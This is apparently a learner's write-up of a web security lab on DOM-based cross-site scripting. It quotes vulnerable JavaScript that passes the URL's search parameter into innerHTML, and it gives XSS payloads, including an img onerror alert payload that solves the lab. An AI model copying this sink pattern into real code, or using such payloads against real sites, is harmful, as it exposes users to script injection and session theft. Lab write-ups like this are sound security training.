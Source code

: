 # Lab: DOM XSS in innerHTML sink using source location.search

 This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function. 

Vulnerable area: Blog search functionality

Found this js code:

`function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}`

Because `.innerHTML` was used, we can inject our own html

I first tried the straightforward payload, but it didn't work:

`<script>alert('haha get pwned')</script>`

Was able to perform DOM XSS with the following payload:

`<img src='x' onerror='alert(1)'`

Lab solved!